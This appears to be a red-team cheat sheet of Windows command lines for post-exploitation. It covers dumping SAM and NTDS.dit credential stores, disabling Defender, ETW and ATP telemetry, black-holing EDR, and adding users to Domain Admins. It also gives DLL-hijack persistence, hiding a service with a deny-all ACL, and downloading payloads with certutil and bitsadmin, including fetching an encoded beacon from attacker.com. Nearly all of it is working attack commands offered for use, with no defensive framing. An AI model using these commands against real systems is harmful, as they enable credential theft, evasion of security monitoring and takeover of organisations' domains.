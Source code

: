 - Find Domain Controller:
	- `echo %LOGONSERVER%`
	- `nslookup <domain.name>`
	- Check for assigned DNS server from DHCP
	- Packet capture - look for Kerberos/LDAP (ports 88, 389, 636)
- Harvest SAM:
	- `reg.exe save hklm\sam c:\temp\sam.save`
	- `reg.exe save hklm\security c:\temp\security.save`
	- `reg.exe save hklm\system c:\temp\system.save`
- Download files (w/o PowerShell)
	- `certutil.exe -urlcache -split -f "https://<url>/a.exe" a.exe`
	- `bitsadmin /transfer cthulhujob /download /priority normal http://<url>/a.exe`
- Disable ETW
	- `set COMPlus_ETWEnabled=0`
- Disable Windows Defender
	- `sc config TrustedInstaller binPath= "cmd.exe /C sc stop windefend && sc delete windefend" && sc start TrustedInstaller`
- Block ATP communications
	- `sc config TrustedInstaller binPath="cmd.exe /C sc stop diagtrack & sc config diagtrack binPath='lol'" && sc start TrustedInstaller`
- Encode and transfer/decode malicious file
	- (On attacker machine) `certutil -encode beacon64.exe file.txt`
	- (On target) `bitsadmin /Transfer myJob http://attacker.com/file.txt C:\windows\tasks\enc.txt && certutil -decode C:\windows\tasks\enc.txt C:\windows\tasks\cisa.exe && del C:\windows\tasks\enc.txt`
- Use Certutil to download exe
	- `certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe`
- Add current user to domain admins
	- `net group "domain admins" myusername /add /domain`
- Get user/domain SID:
	- `whoami /user`
- Create service to run with credentials
	- `sc.exe create MySvc2 binpath= c:\windows\system32\notepad.exe obj=CONTOSO.local\svcUser password=svc1234!`
- Create scheduled task to run with credentials
	- `schtasks.exe /create /tn notepaddaily /tr notepad.exe /sc daily /ru CONTOSO\TaskUser /rp task1234!`
- NewCredentials logon
	- `runas /netonly /user:CONTOSO\OtherUser cmd`
- Add/Delete firewall rule
	- `netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444`
	- `netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444`
- LOL Extract NTDS.dit
	- `vssadmin create shadow /for=C:`
	- `copy <shadow copy volume name>\Windows\ntds\ntds.dit C:\Windows\Temp\ntds.dit`
	- `reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYS` OR `copy <shadow copy volume name>\Windows\System32\config\SYSTEM C:\Windows\Temp\SYS`
	- `vssadmin delete shadows /shadow=<shadow ID>`
- Query AD SPNs
	- `setspn -T <domain> -F -Q */*`
- Enumerate .NET version installed on a host
	- `reg queryv x64 HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full Release`
	- Cross-reference here: https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies
- Reverse port forward
	- Windows Firewall
		- Start rpfwd
			- `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp` - start rpfwd
		- Terminate rpfwd
			- `netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444` - terminate rpfwd
- Extract NTDS.dit
	```MSDOS
	ntdsutil
	activate instance ntds
	ifm
	create full C:\ntdsutil
	quit
	quit
	```

- Manually set Kerberos realm (for use with Rubeus, etc. through Proxifier)
	```
	ksetup /setrealm VIPR.LAB
	ksetup /addkdc VIPR.LAB dc01.vipr.lab 
	ksetup /setrealmflags VIPR.LAB tcpsupported
	```

- Create Volume Shadow Copy and copy SAM file out
	- `wmic shadowcopy call create Volume='C:\'`
	- `vssadmin list shadows`
		- Verify shadow file was created and check name
	- `copy \\?\GLOBALROOT\Device\<SHADOW COPY NAME>\windows\system32\config\sam C:\users\User1\Downloads\sam`
	- `copy \\?\GLOBALROOT\Device\<SHADOW COPY NAME>\windows\system32\config\sam C:\users\User1\Downloads\sam`
- Enumerate any domains trusted by our current domain
	- `nltest /trusted_domains`

- Persistence through WptsExtensions.dll:
	- `reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PATH`
		- Query system path
	- Place malicious "WptsExtensions.dll" anywhere in that path
	- Executes on reboot
	- Delete DLL to remove persistence

- DNS black hole on EDR endpoint
	- Find API endpoint
		- `ipconfig /displaydns`
	- Black hole in hosts
		- `echo 127.0.0.1 http://<API domain endpoint> >> c:\windows\system32\drivers\etc\hosts`

- Listing user bookmarks
	- Chrome
		- `type "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"`
	- Edge
		- `type "C:\Users\%USERNAME%\AppData\Local\Microsoft\Edge\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"`
	- Brave
		- `type "C:\Users\%USERNAME%\AppData\Local\BraveSoftware\Brave-Browser\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"`

- Hide a Windows service (effectively sets all ACLs to "Deny" so literally no user can read the service)

```PowerShell
sc sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```
	- TODO: remove the RP/WP for BA (local Admin) and SY (NT authority/SYSTEM) (too lazy to fix the SDDL string right now)
	- Read the SDDL: ConvertFrom-SDDLString